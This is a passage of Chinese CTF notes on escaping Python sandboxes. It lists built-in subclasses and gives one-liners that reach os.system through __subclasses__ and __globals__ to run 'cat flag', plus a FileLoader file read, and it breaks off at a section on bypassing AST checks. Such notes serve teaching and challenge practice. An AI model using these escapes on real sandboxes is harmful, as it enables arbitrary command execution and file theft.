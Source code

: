     (165, <class 'itertools._tee_dataobject'>)
    (166, <class 'reprlib.Repr'>)
    (167, <class 'collections.deque'>)
    (168, <class '_collections._deque_iterator'>)
    (169, <class '_collections._deque_reverse_iterator'>)
    (170, <class '_collections._tuplegetter'>)
    (171, <class 'collections._Link'>)
    (172, <class 'functools.partial'>)
    (173, <class 'functools._lru_cache_wrapper'>)
    (174, <class 'functools.partialmethod'>)
    (175, <class 'functools.singledispatchmethod'>)
    (176, <class 'functools.cached_property'>)
    (177, <class 'contextlib.ContextDecorator'>)
    (178, <class 'contextlib._GeneratorContextManagerBase'>)
    (179, <class 'contextlib._BaseExitStack'>)
    (180, <class 'rlcompleter.Completer'>)
    ```
    

#### 搞事

可以尝试从某些类的 `__init__` 里面搞到 `__globals__` ，比如：

```python
[].__class__.__base__.__subclasses__()[-2].__init__.__globals__['sys'].modules['os'].system("cat flag")
```

也可以利用子类里面的危险类：

```python
(37, <class 'builtin_function_or_method'>)
(94, <class '_frozen_importlib_external.FileLoader'>)
(132, <class 'os._wrap_close'>)
```

比如：

```python
[].__class__.__base__.__subclasses__()[94].get_data("", "flag")
[].__class__.__base__.__subclasses__()[132].close.__globals__["system"]("cat flag")
```

python2 里还有 file 可以直接 open

### 绕过 AST 检测

具体相对复杂，单独列出一条，见下面

## 绕过 AST 检测逃逸

这类题目不像普通的沙箱逃逸一样通过删除内置函数字典或者删除某些模块的内容来实现<br/>
而是在输入命令后即使用python的 ast 模块对其进行语法分析，只要使用了某些禁止的抽象语法，就抛出异常导致程序中断<br/>
因为它直接使用 ast.parse 分析了语法，所以很难蒙混过关骗过 ast，这时就需要寻找题目中遍历语法树的漏洞了

先来看看 cy 的 pysandbox13，这个最终版的 AST 检查绕过
